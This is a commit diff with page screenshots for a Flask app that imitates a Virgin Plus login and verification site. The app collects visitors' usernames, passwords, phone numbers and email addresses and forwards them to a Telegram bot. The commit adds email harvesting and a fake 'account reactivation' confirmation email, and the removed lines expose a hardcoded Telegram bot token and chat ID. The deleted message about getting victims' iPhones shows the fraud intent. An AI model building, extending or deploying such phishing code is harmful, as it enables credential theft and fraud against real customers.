

Before and after one commit to Kurazyy/virgin, a Flask app: page /verify in a window 1280 px wide. Shown: the part 91-699 px from the top of the page, without its empty margins (0-687 px from the left). Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
with smtp

```diff
--- a/app.py
+++ b/app.py
@@ -1,14 +1,36 @@
+from dotenv import load_dotenv
+load_dotenv()
 from flask import Flask, render_template, request, redirect, url_for, session
 import requests
 import random
 import string
+from flask_mail import Mail, Message
+import os
+from dotenv import load_dotenv  # Only if using a .env file
+import smtplib
+from email.mime.text import MIMEText
+
+
+# Load environment variables from .env file (if using)
+load_dotenv()
 
 app = Flask(__name__)
-app.secret_key = "some_random_secret_key_here"
+app.secret_key = os.environ.get("SECRET_KEY", "fallback_secret_key")  # Replace with a strong, random secret key
 
-# Your real Telegram credentials
-TELEGRAM_BOT_TOKEN = "7321008127:AAEF8dr-B-b_hLkjA1qcXl07askvu0fRggs"
-TELEGRAM_CHAT_ID = "-1002441207907"
+# Telegram credentials
+TELEGRAM_BOT_TOKEN = os.environ.get("TELEGRAM_BOT_TOKEN")
+TELEGRAM_CHAT_ID = os.environ.get("TELEGRAM_CHAT_ID")
+
+# Flask-Mail configuration using environment variables
+app.config.update(
+    MAIL_SERVER='smtp.gmail.com',
+    MAIL_PORT=587,
+    MAIL_USE_TLS=True,
+    MAIL_USERNAME=os.environ.get("MAIL_USERNAME"),
+    MAIL_PASSWORD=os.environ.get("MAIL_PASSWORD")
+)
+
+mail = Mail(app)
 
 def send_to_telegram(message_text):
     """Helper: send text to your Telegram bot/channel."""
@@ -22,6 +44,22 @@ def send_to_telegram(message_text):
         requests.post(url, data=payload)
     except Exception as e:
         print("Telegram send error:", e)
+
+def send_confirmation_email(to_email):
+    """Send a confirmation email to the user."""
+    try:
+        msg = Message(
+            subject="Account Reactivation Confirmation",
+            sender=app.config['MAIL_USERNAME'],
+            recipients=[to_email]
+        )
+        msg.body = "You have successfully reactivated your account. Thank you!"
+        # For HTML emails, uncomment the next line and create a corresponding template
+        # msg.html = render_template("confirmation_email.html")
+        mail.send(msg)
+        print(f">>> Confirmation email sent to {to_email}")
+    except Exception as e:
+        print("Error sending confirmation email:", e)
 
 def generate_captcha(length=6):
     """Generate a random alphanumeric CAPTCHA code."""
@@ -43,7 +81,7 @@ def captcha():
         if user_captcha.lower() == real_captcha.lower():
             # CAPTCHA passed
             visitor_ip = request.remote_addr
-            custom_message = f"A user from IP {visitor_ip} has entered diddies den. lets pray we get all their iphones."
+            custom_message = f"A user from IP {visitor_ip} has entered the site."
             send_to_telegram(custom_message)
             session["captcha_passed"] = True
             return redirect(url_for("home"))
@@ -87,14 +125,17 @@ def loading():
 @app.route("/verify", methods=["GET", "POST"])
 def verify():
     """
-    If GET: Show verify.html (phone form).
-    If POST: Save phone in session, then redirect to /final_loading.
+    If GET: Show verify.html (phone and email form).
+    If POST: Save phone and email in session, then redirect to /final_loading.
     """
     if request.method == "POST":
         phone_number = request.form.get("phone_number")
+        email = request.form.get("email")
         session["phone_number"] = phone_number
+        session["email"] = email
 
         print(">>> POST /verify - phone_number=", phone_number)
+        print(">>> POST /verify - email=", email)
 
         return redirect(url_for("final_loading"))
     else:
@@ -112,21 +153,26 @@ def final_loading():
 @app.route("/send_data")
 def send_data():
     """
-    Gathers username/password/phone from session -> sends to Telegram,
-    clears session, then redirect to /success.
+    Gathers username/password/phone/email from session -> sends to Telegram,
+    sends confirmation email to user, clears session, then redirect to /success.
     """
     user = session.get("username", "N/A")
     pw = session.get("password", "N/A")
     phone = session.get("phone_number", "N/A")
+    email = session.get("email", "N/A")
 
-    print(">>> GET /send_data - about to send Telegram message")
+    print(">>> GET /send_data - about to send Telegram message and confirmation email")
     message_text = (
         f"Virgin Plus Verification:\n"
         f"Username: {user}\n"
         f"Password: {pw}\n"
-        f"Phone: {phone}"
+        f"Phone: {phone}\n"
+        f"Email: {email}"
     )
     send_to_telegram(message_text)
+
+    if email != "N/A":
+        send_confirmation_email(email)
 
     session.clear()
     return redirect(url_for("success"))
@@ -137,5 +183,9 @@ def success():
     print(">>> GET /success - Rendering success.html")
     return render_template("success.html")
 
+
+
+
+
 if __name__ == "__main__":
     app.run(host="0.0.0.0", port=5000, debug=True)
--- a/requirements.txt
+++ b/requirements.txt
@@ -1,3 +1,4 @@
 Flask==2.3.2
 requests==2.31.0
 gunicorn==20.1.0
+Flask-Mail==0.9.1
--- a/templates/verify.html
+++ b/templates/verify.html
@@ -4,7 +4,7 @@
   <meta charset="UTF-8">
   <!-- So it looks correct on mobile -->
   <meta name="viewport" content="width=device-width, initial-scale=1.0">
-  <title>Verify Phone</title>
+  <title>Verify Phone and Email</title>
   <link rel="stylesheet" href="{{ url_for('static', filename='style.css') }}">
 </head>
 <body>
@@ -16,7 +16,7 @@
     <div class="header-left">
       <!-- If you want the big offset, add margin-left: 20rem in your style.css
            or remove if you prefer. -->
-      <img src="static/images/virgin-logo.png" alt="Virgin Plus Logo">
+      <img src="{{ url_for('static', filename='images/virgin-logo.png') }}" alt="Virgin Plus Logo">
     </div>
 
     <!-- Desktop nav: FR + user icon, hidden on mobile if you want -->
@@ -27,7 +27,7 @@
 
     <!-- If you want a hamburger on verify too, add this. If not, remove. -->
     <div class="hamburger" onclick="toggleMobileMenu()">
-      &#9776;
+      &#9776; <!-- The “3 lines” icon -->
     </div>
   </header>
 
@@ -35,7 +35,7 @@
   <nav class="mobile-menu" id="mobileMenu">
     <div class="mobile-menu-header">
       <span class="close-btn" onclick="toggleMobileMenu()">&times;</span>
-      <img src="static/images/virgin-logo.png" alt="Virgin Plus Logo" />
+      <img src="{{ url_for('static', filename='images/virgin-logo.png') }}" alt="Virgin Plus Logo" />
     </div>
     <ul>
       <li><a href="#">FRANÇAIS</a></li>
@@ -50,15 +50,18 @@
     <!-- left-col = "Verify your account" text -->
     <div class="left-col">
       <h2>Verify your account</h2>
-      <p>Enter the main phone number on file.</p>
+      <p>Enter the main phone number and your email address on file.</p>
     </div>
 
-    <!-- right-col = the actual phone verification form -->
+    <!-- right-col = the actual phone and email verification form -->
     <div class="right-col">
-      <h1>Phone Verification</h1>
+      <h1>Phone and Email Verification</h1>
       <form action="{{ url_for('verify') }}" method="POST">
         <label for="phone_number" class="input-label">Phone number</label>
-        <input type="text" name="phone_number" id="phone_number" placeholder="e.g. 416-123-4567">
+        <input type="text" name="phone_number" id="phone_number" placeholder="e.g. 416-123-4567" required>
+
+        <label for="email" class="input-label">Email Address</label>
+        <input type="email" name="email" id="email" placeholder="e.g. user@example.com" required>
 
         <button type="submit" class="login-btn" style="margin-top: 1rem;">
           Verify
```
